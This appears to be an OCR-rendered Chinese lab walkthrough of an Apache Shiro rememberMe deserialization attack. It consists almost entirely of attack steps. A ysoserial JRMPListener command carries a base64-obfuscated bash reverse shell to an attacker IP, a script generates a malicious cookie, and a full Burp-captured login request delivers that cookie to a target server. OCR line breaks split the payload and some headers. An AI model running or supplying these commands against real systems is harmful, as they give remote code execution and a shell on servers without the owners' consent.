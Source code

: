 `cd /root/vuln/shiro` 

`java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE0Mi4xMzIv Nzc3NyAwPiYx}|{base64,-d}|{bash,-i}"` 

### python生成Cookie 

python3 shiro.py 192.168.142.132:8888 

可能需要 pip3 install pycrypto 

得到 

`rememberMe=+DcRVRC3TxGKeuGHa4TZSWqqLtQGyPvE0mjicSb4nm6nUdC6PwNxo6ZgbQLuHr8wq3ECYQVLqKXaECtmKQhW91hbrn3XgJzn3XRUgNEciP3dQpQcOO1ID+vsns3qmyd6SMva5e+cX7z74AwVAK2i0cwc/AmnVUV/oCdA9nHPcb6b5EH23bkrLuafb5Ij7e6t+X1pZunOUFbquQqrBCW4D+hmUS+g93brv5cpLDmR5DWkh7yqWyTXMWKzZqRP0iW/x1gOFVZ3wPv2CYZhvQlH3jpk7nxq5gf5rfCgQ7T8R7OJ66zQc92gx0kbInRJ/QT3v19RF3Jn/q7fBGyX2/LDDdjPzd4DYBMj3CgH3Cx4FuElMv4364VTknFZqVj4gMsfGS2OA9NZ/2jVIFhTdhvU3w==` 

### Burp抓包 

勾选remember me，火狐浏览器抓登录的包 

### payload 

```
POST /doLogin HTTP/1.1
Host: 192.168.142.128:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; 
Win64; x64; rv:98.0) Gecko/20100101
Firefox/98.0
Accept: text/html,application/xhtml+xml,
application/xml;q=0.9,image/avif,image/
webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=
0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-formurlencoded
Content-Length: 47
Origin: http://192.168.142.128:8080
Connection: close
Referer: http://192.168.142.128:8080/doLogin
Cookie: JSESSIONID=
BE2042921ED0A1E58436F6FBD5654581;
rememberMe=+
DcRVRC3TxGKeuGHa4TZSWqqLtQGyPvE0m
jicSb4nm6nUdC6PwNxo6ZgbQLuHr8wq3EC
YQVLqKXaECtmKQhW91hbrn3XgJzn3XRUg
NEciP3dQpQcOO1ID+vsns3qmyd6SMva5e+
cX7z74AwVAK2i0cwc/AmnVUV/
oCdA9nHPcb6b5EH23bkrLuafb5Ij7e6t+
X1pZunOUFbquQqrBCW4D+hmUS+
g93brv5cpLDmR5DWkh7yqWyTXMWKzZqR
P0iW/
x1gOFVZ3wPv2CYZhvQlH3jpk7nxq5gf5rfCg
Q7T8R7OJ66zQc92gx0kbInRJ/
QT3v19RF3Jn/q7fBGyX2/
LDDdjPzd4DYBMj3CgH3Cx4FuElMv4364VT
knFZqVj4gMsfGS2OA9NZ/
2jVIFhTdhvU3w==
Upgrade-Insecure-Requests: 1
username=admi&password=n&rememberme=
remember-me

```
